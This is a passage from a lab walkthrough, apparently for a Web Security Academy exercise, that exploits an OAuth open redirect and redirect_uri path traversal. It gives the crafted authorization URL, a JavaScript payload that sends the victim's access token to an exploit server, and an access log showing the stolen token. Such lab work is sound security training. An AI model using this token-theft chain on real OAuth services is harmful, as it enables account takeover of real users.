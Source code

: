 If we exchange the `/path`, we'll get redirected there.

```
https://0a040096041a20bac0f1db9d003e00c5.web-security-academy.net/auth?client_id=uyi3jd4v3nvvxrtr6ta3r&redirect_uri=https://0a040096041a20bac0f1db9d003e00c5.web-security-academy.net/post/next?path=https://exploit-0a2b007004ba20c6c013da57015e0004.exploit-server.net/&response_type=token&nonce=-1323844043&scope=openid%20profile%20email
```

What's now a bit tricky is to server a payload which will respond accordingly. We now need to create an exploit that first forces the victim to visit oue malicious URL and then executes the script we just tested to steal their access token.

```html
<script>
    if (!document.location.hash) {
        window.location = "https://oauth-0aa10074040f209dc07dd97c029700e0.oauth-server.net/auth?client_id=uyi3jd4v3nvvxrtr6ta3r&redirect_uri=https://0a040096041a20bac0f1db9d003e00c5.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a2b007004ba20c6c013da57015e0004.exploit-server.net/exploit&response_type=token&nonce=-1343228737&scope=openid%20profile%20email"
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

Access log should be found:
```
10.0.4.32       2023-03-10 20:02:04 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.32       2023-03-10 20:02:04 +0000 "GET /?access_token=CnvFuSgC49GVghnWkWEOIHoUbTLnz7qGuuDBDsfaAf_&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

10.0.4.32       2023-03-10 20:02:04 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"

```

We can request session token
